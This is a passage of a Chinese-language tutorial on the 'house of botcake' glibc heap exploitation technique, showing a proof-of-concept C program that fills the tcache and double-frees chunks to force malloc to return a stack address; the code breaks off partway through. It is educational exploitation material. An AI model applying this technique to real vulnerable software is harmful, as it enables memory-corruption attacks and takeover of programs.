 # 前言
这一小节我们来看house of botcake这种攻击方式。

# POC
## POC源码
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>


int main()
{
    /*
     * This attack should bypass the restriction introduced in
     * https://sourceware.org/git/?p=glibc.git;a=commit;h=bcdaad21d4635931d1bd3b54a7894276925d081d
     * If the libc does not include the restriction, you can simply double free the victim and do a
     * simple tcache poisoning
     * And thanks to @anton00b and @subwire for the weird name of this technique */

    // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    // introduction
    puts("This file demonstrates a powerful tcache poisoning attack by tricking malloc into");
    puts("returning a pointer to an arbitrary location (in this demo, the stack).");
    puts("This attack only relies on double free.\n");

    // prepare the target
    intptr_t stack_var[4];
    puts("The address we want malloc() to return, namely,");
    printf("the target address is %p.\n\n", stack_var);

    // prepare heap layout
    puts("Preparing heap layout");
    puts("Allocating 7 chunks(malloc(0x100)) for us to fill up tcache list later.");
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    
    // cause chunk overlapping
    puts("Now we are able to cause chunk overlapping");
    puts("Step 1: fill up tcache list");
    for(int i=0; i<7; i++){
        free(x[i]);
    }
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);
    
    puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
```